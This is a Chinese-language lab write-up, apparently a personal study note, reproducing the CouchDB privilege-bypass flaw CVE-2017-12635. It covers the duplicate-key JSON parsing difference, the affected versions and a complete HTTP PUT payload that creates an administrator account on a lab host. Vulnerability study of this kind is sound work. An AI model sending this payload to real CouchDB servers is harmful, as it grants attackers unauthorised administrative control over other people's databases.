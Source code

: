 # Couchdb 垂直权限绕过漏洞（CVE-2017-12635）漏洞  

**couchdb简介：**

- Apache CouchDB是一个开源的NoSQL数据库，专注于易用性和成为“完全拥抱web的数据库”。它是一个使用JSON作为数据存储格式，javascript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。 

**漏洞原理：**

- CVE-2017-12635：Erlang和JavaScript，对JSON解析方式的不同，导致语句执行产生差异性。这个漏洞可以让**任意用户创建管理员**，属于垂直权限绕过漏洞。

- 举例：

  `Erlang:` `> jiffy:decode(``"{"``a``":"``1``", "``a``":"``2``"}"``).` `{[{<<``"a"``>>,<<``"1"``>>},{<<``"a"``>>,<<``"2"``>>}]}`

  ```
  JavaScript:
  
  > JSON.parse("{"a":"1", "a": "2"}")
  
  {a: "2"}
  ```

- 在定义一对键值对时，Eralang解析器将存储两个值；javascript只存储第二个值。但jiffy实现时，getter函数只返回第一个值。这里涉及的函数参考：https://www.anquanke.com/post/id/87256；https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635

**影响版本：**

- 小于 1.7.0 以及 小于 2.1.1

**复现：**

- **构造创建用户的数据包**
- 　![1](C:\Users\litbaizhang\Desktop\20201222\Apache\Couchedb垂直越权绕过漏洞CVE-2017-12635\Couchdb 垂直权限绕过漏洞（CVE-2017-12635）漏洞\1.png)
- 绕过role验证：
- payload：
  - `PUT /_users/org.couchdb.user:vulhub HTTP/1.1``Host: 192.168.183.134:5984``Accept: */*``Accept-Language: en``User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)``Connection: close``Content-Type: application/json``Content-Length: 110` `{`` ``"type"``: ``"user"``,`` ``"name"``: ``"vulhub"``,`` ``"roles"``: [``"_admin"``],`` ``"roles"``:[],`` ``"password"``: ``"vulhub111"``}`

![2](C:\Users\litbaizhang\Desktop\20201222\Apache\Couchedb垂直越权绕过漏洞CVE-2017-12635\Couchdb 垂直权限绕过漏洞（CVE-2017-12635）漏洞\2.png)

**一些小思考：**

- 虽然分析说，只读取第一个键值，按理来说，第二个值是任意的应该不影响，但我测试发现，只有为空时，poc才正确操作。

![3](C:\Users\litbaizhang\Desktop\20201222\Apache\Couchedb垂直越权绕过漏洞CVE-2017-12635\Couchdb 垂直权限绕过漏洞（CVE-2017-12635）漏洞\3.png)

- 且在创建一个成功后，再重复发包，也会报错409，
- 修改已创建的密码也不行

![4](C:\Users\litbaizhang\Desktop\20201222\Apache\Couchedb垂直越权绕过漏洞CVE-2017-12635\Couchdb 垂直权限绕过漏洞（CVE-2017-12635）漏洞\4.png)

 